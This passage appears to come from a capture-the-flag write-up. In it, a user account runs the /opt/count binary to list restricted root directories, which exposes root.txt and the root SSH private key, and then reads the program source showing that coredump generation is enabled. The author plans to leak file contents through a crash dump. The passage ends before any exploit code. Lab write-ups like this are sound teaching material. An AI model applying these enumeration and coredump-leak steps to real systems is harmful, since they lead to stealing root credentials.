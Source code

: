 So we can't dump the password file as root. Anyway, we can try to break the code execution and leak the information from the coredump report. But, before that, we discovered we can enumerate restricted content just specifying a folder path:
```bash
dasith@secret:~$ /opt/count
Enter source file/directory name: /root
-rw-r--r--	.viminfo
drwxr-xr-x	..
-rw-r--r--	.bashrc
drwxr-xr-x	.local
drwxr-xr-x	snap
lrwxrwxrwx	.bash_history
drwx------	.config
drwxr-xr-x	.pm2
-rw-r--r--	.profile
drwxr-xr-x	.vim
drwx------	.
drwx------	.cache
-r--------	root.txt
drwxr-xr-x	.npm
drwx------	.ssh

Total entries       = 15
Regular files       = 4
Directories         = 10
Symbolic links      = 1
Save results a file? [y/N]: n
dasith@secret:~$ /opt/count
Enter source file/directory name: /root/.ssh
drwx------	..
-rw-------	authorized_keys
-rw-------	id_rsa
drwx------	.
-rw-r--r--	id_rsa.pub

Total entries       = 5
Regular files       = 3
Directories         = 2
Symbolic links      = 0
Save results a file? [y/N]: n
```
So we know that files `/root/root.txt` and `/root/.ssh/id_rsa` exist. Now we need a way to read their content, if we take a look at the `/opt` folder:
```bash
dasith@secret:~$ ls /opt
code.c  count  valgrind.log
```
We can see the file `/opt/code.c`, let's read it:
```bash
    // Enable coredump generation
    prctl(PR_SET_DUMPABLE, 1);
    printf("Save results a file? [y/N]: ");
    res = getchar();
    if (res == 121 || res == 89) {
        printf("Path: ");
        scanf("%99s", path);
        FILE *fp = fopen(path, "a");
        if (fp != NULL) {
            fputs(summary, fp);
            fclose(fp);
        } else {
            printf("Could not open %s for writing\n", path);
        }
    }
```
